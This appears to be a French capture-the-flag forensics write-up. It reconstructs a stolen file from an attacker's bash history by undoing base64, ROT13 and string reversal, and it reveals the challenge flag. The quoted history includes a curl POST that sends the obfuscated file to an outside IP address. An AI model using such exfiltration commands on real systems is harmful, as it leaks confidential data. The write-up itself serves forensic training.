

> ****Informations Générales****
> - **Plateforme :** Cyberini
> - **Catégorie :** Forensics
> - **Objectif :** Reconstituer le contenu d'un fichier confidentiel exfiltré à partir d'un historique de commandes Bash corrompu/transformé.

---

## 1. Description du Challenge

Suite à une intrusion sur un serveur, les administrateurs ont récupéré l'historique de commandes (`bash_history`) de l'attaquant. L'attaquant a copié un fichier confidentiel, l'a transformé via plusieurs étapes successives, puis l'a exfiltré via une requête HTTP POST. Le but est de retracer les opérations à l'envers pour retrouver le contenu initial du fichier.

---

## 🔍 2. Analyse de l'Historique (`bash_history`)

En lisant le fichier `bash_history`, on repère la séquence exacte des manipulations effectuées par l'attaquant sur le fichier sensible :

```bash
cp rapport_confidentiel.txt /tmp/.cache_x1
cd /tmp
base64 .cache_x1 > .cache_x2                  # Étape 1 : Encodage Base64
tr 'A-Za-z' 'N-ZA-Mn-za-m' < .cache_x2 > .cache_x3   # Étape 2 : Chiffrement ROT13
rev .cache_x3 > .cache_x4                    # Étape 3 : Inversion des chaînes (reverse)
echo "=DTojp2K1RmK5WUZ0AKZb9SMhEGogOmL" > exfil.dat  # Résultat final exfiltré
curl -X POST -d @exfil.dat [http://203.0.113.66:8080/upload](http://203.0.113.66:8080/upload)
````

###  Logique de Déchiffrement (Ordre Inverse)

L'attaquant a appliqué les transformations dans cet ordre :

  

$$\text{Fichier d'origine} \xrightarrow{\text{Base64}} \xrightarrow{\text{ROT13}} \xrightarrow{\text{Rev}} \text{Donnée exfiltrée}$$

Pour retrouver le fichier d'origine, il faut appliquer les opérations inverses **en partant de la fin vers le début** :

  

1. **Inverser à nouveau la chaîne** (`rev`)
    
      
    
2. **Appliquer ROT13** pour défaire le décalage de lettres (`tr`)
    
      
    
3. **Décoder le Base64** (`base64 -d`)
    
      
    

##  3. Résolution & Commandes

### Étape 1 : Inversion du texte (`rev`)

On prend la chaîne exfiltrée `=DTojp2K1RmK5WUZ0AKZb9SMhEGogOmL` et on l'inverse :

```bash
echo "=DTojp2K1RmK5WUZ0AKZb9SMhEGogOmL" | rev
# Résultat : LmOgoGEhMS9bZKA0ZUW5KmR1K2pjoTD=
```

### Étape 2 : Annulation du ROT13 (`tr`)

On applique la substitution ROT13 (qui est symétrique, elle s'annule elle-même) :

```bash
echo "LmOgoGEhMS9bZKA0ZUW5KmR1K2pjoTD=" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# Résultat : YzBtbTRuZF9oMXN0MHJ5XzE1X2cwbGQ=
```

### Étape 3 : Décodage Base64 (`base64 -d`)

Enfin, on décode le Base64 obtenu :

  
```bash
echo "YzBtbTRuZF9oMXN0MHJ5XzE1X2cwbGQ=" | base64 -d
# Résultat : c0mm4nd_h1st0ry_15_g0ld
```

## 🏁 4. Résultat Final

Le contenu exact du fichier confidentiel dérobé est :



> `c0mm4nd_h1st0ry_15_g0ld`
